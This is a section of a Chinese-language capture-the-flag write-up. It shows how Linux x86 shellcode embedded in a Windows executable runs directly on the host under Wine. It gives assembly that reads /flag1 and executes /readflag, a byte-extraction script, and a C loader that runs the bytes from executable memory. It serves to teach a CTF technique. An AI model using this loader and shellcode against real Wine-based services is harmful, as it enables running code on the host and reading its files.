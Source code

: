 ## 0x04 杯窗鹅影
根据[Attacking applications running under WINE (Part I)](https://schlafwandler.github.io/posts/attacking-wine-part-i/)这篇博客。可以得知，wine不是模拟器，而是添加了一层转换层，会将windows api转换成宿主机的api，达到运行windows exe的目的。  

所以wine运行exe时，如果exe中有目标为`宿主机平台`的shellcode，是可以直接执行的！

编写如下的汇编代码，主要作用是读取文件`/flag1`获得flag1，然后调用execve系统调用，execve `/flag2`获得flag2。

```
global _start
_start:
; flag1
    sub esp, 0xff
    mov eax, 0x616c662f
    mov [esp], eax
    mov eax, 0x00003167
    mov [esp+4], eax

    mov eax, 0x5    ; open
    xor ecx, ecx    ; flags
    xor edx, edx    ; mode
    mov ebx, esp    ; filename
    int 0x80
    add esp, 0xff

    mov ebx, eax    ; fd
    mov eax, 0x3    ; read
    mov edx, 0xFF   ; count
    sub esp, 0xff   ; buffer
    mov ecx, esp
    int 0x80

    mov edx, eax    ; count
    mov eax, 0x4    ; write 
    mov ebx, 0x2    ; fd
    mov ecx, esp    ; buffer
    int 0x80
    add esp, 0xff

; flag2
    sub esp, 0xff
    mov eax, 0x6165722f
    mov [esp], eax
    mov eax, 0x616c6664
    mov [esp+4], eax
    mov eax, 0x00000067
    mov [esp+8], eax

    mov eax, 0xb    ; execve 
    mov ebx, esp    ; filename
    xor ecx, ecx    ; argv
    xor edx, edx    ; envp
    int 0x80
    add esp, 0xff

    ret
```

将其编译，并提取字节码：
```
#!/bin/bash
nasm -f elf32 -o shellcode.o shellcode.asm
ld -melf_i386 -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' '| tr -s ' '| tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

放到main.c里：
```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "\x81\xec\xff\x00\x00\x00\xb8\x2f\x66\x6c\x61\x89\x04\x24\xb8\x67\x31\x00\x00\x89\x44\x24\x04\xb8\x05\x00\x00\x00\x31\xc9\x31\xd2\x89\xe3\xcd\x80\x81\xc4\xff\x00\x00\x00\x89\xc3\xb8\x03\x00\x00\x00\xba\xff\x00\x00\x00\x81\xec\xff\x00\x00\x00\x89\xe1\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x02\x00\x00\x00\x89\xe1\xcd\x80\x81\xc4\xff\x00\x00\x00\x81\xec\xff\x00\x00\x00\xb8\x2f\x72\x65\x61\x89\x04\x24\xb8\x64\x66\x6c\x61\x89\x44\x24\x04\xb8\x67\x00\x00\x00\x89\x44\x24\x08\xb8\x0b\x00\x00\x00\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x81\xc4\xff\x00\x00\x00\xc3";

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{

    LPVOID buffer = VirtualAlloc(NULL, 8192, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memset(buffer, 0, 8192);

    void (*pcode)() = (void (*)())buffer;

    memcpy(buffer, shellcode, sizeof(shellcode));
    pcode();

    return 0;
}
```
编译上传，即可获得flag。